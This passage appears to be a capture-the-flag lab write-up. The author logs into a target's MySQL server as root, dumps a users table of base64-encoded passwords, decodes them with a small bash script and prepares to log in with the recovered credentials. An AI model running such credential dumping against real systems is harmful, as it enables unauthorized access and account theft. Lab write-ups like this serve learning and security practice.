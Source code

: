 ```bash
root@kali:~$ mysql -h 192.168.179.176 -u root -D Users -p
Enter password: 
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.003 sec)
```

Retrieving the records from the table users.

```bash
MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.004 sec)
```

We save it to a file.

```bash
root@kali:~$ cat mysql.users 
kent:Sld6WHVCSkpOeQ== 
mike:U0lmZHNURW42SQ== 
kane:aVN2NVltMkdSbw==
```

I developed a bash script to decode the passwords in base64.

```bash
#!/bin/bash

for x in $(cat mysql.users); do
        db64=$(echo $x | cut -d ':' -f 2 | base64 -d)
        echo -e "$x  (\e[1;33m$db64\e[0m)"
done
```

```bash
root@kali:~$ bash decoder.sh
kent:Sld6WHVCSkpOeQ==  (JWzXuBJJNy)
mike:U0lmZHNURW42SQ==  (SIfdsTEn6I)
kane:aVN2NVltMkdSbw==  (iSv5Ym2GRo)
```

We log into the login form with any user.
